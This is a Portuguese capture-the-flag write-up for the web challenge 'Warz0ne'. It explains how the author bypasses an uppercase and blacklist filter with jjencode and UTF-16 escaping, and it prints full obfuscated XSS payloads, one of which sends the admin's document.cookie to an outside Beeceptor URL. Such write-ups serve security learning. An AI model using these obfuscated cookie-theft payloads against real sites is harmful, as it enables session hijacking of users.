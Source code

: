 # Warz0ne

**Categoria: Web**

# Descrição:
> (imagem_chall.pnh)

# Solução
Acessando o desafio obtemos uma página com um input disponível, onde ao preenchido e clicar em submit o valor inserido é transcrito para página.
(imagem.png)

Analisando o código-fonte da página, encontramos um javascript:
(imagem.png)

De forma grosseira, esse javascript recebe o valor do input e o transforma em uppercase, por fim transcreve esse último para a página:
(imagem.png)

Sabendo disso, levantamos uma possível blacklist (tudo que é digitado é desconsiderado, ou seja, não é executado):
(imagem.png)

Da blacklist, procurei alguns bypass no Google e encontrei alguns encodes: utf16 (https://xssor.io/) e jjencode (http://utf-8.jp/public/jjencode.html).

Usando tais encodes, consegui construir um payload para executar um alert(1):

```<img src=x onerror=alert(1)>``` =

```<\u0069\u006d\u0067 \u0073\u0072\u0063=x \u006f\u006e\u0065\u0072\u0072\u006f\u0072=\u0024\u003d\u007e\u005b\u005d\u003b\u0024\u003d\u007b\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u0024\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u005f\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u0024\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u0024\u003a\u0028\u0024\u005b\u0024\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u005f\u003a\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u005f\u005f\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u007d\u003b\u0024\u002e\u0024\u005f\u003d\u0028\u0024\u002e\u0024\u005f\u003d\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u0024\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u0024\u003d\u0028\u0024\u002e\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0028\u0021\u0024\u0029\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u005f\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u0024\u005f\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u005f\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u0029\u002b\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u003b\u0024\u002e\u0024\u0024\u003d\u0024\u002e\u0024\u002b\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0024\u002e\u0024\u002b\u0024\u002e\u0024\u0024\u003b\u0024\u002e\u0024\u003d\u0028\u0024\u002e\u005f\u005f\u005f\u0029\u005b\u0024\u002e\u0024\u005f\u005d\u005b\u0024\u002e\u0024\u005f\u005d\u003b\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0024\u002b\u0022\u005c\u0022\u0022\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u0028\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0022\u0029\u0022\u002b\u0022\u005c\u0022\u0022\u0029\u0028\u0029\u0029\u0028\u0029\u003b>```

Obs: o alert(1) foi encodado primeiramente com jjencode e depois com utf16.
(imagem_alert.png)

A partir da execução do alert(1), criei um payload para "roubar" o cookie do administrador:

```<img src=x onerror=location='https://mlkzika.free.beeceptor.com/?cookie='+document.cookie>``` =

```<\u0069\u006d\u0067 \u0073\u0072\u0063=x \u006f\u006e\u0065\u0072\u0072\u006f\u0072=\u0024\u003d\u007e\u005b\u005d\u003b\u0024\u003d\u007b\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u0024\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u005f\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u0024\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u0024\u003a\u0028\u0024\u005b\u0024\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u005f\u003a\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u005f\u005f\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u007d\u003b\u0024\u002e\u0024\u005f\u003d\u0028\u0024\u002e\u0024\u005f\u003d\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u0024\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u0024\u003d\u0028\u0024\u002e\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0028\u0021\u0024\u0029\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u005f\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u0024\u005f\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u005f\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u0029\u002b\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u003b\u0024\u002e\u0024\u0024\u003d\u0024\u002e\u0024\u002b\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0024\u002e\u0024\u002b\u0024\u002e\u0024\u0024\u003b\u0024\u002e\u0024\u003d\u0028\u0024\u002e\u005f\u005f\u005f\u0029\u005b\u0024\u002e\u0024\u005f\u005d\u005b\u0024\u002e\u0024\u005f\u005d\u003b\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0024\u002b\u0022\u005c\u0022\u0022\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0022\u003d\u0027\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u003a\u002f\u002f\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u005f\u0024\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0022\u002f\u003f\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u003d\u0027\u002b\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u0022\u0022\u0029\u0028\u0029\u0029\u0028\u0029\u003b>```

Obs: location='https://mlkzika.free.beeceptor.com/?cookie='+document.cookie foi encodado com jjencode e depois com utf16.

E, por último, enviei para o administrador pela url: http://159.65.249.122:8585/contact
(imagem.png)

É apenas preciso quebrar o captcha (que pode ser usado um script que encontra-se nesse mesmo github) e passar a url: http://159.65.249.122:8585/?msg=PAYLOAD

E pronto!
(imagem_flag.png)

# Flag:
```HACKAFLAG{Insira_Um4_fl4g_4qu1}```

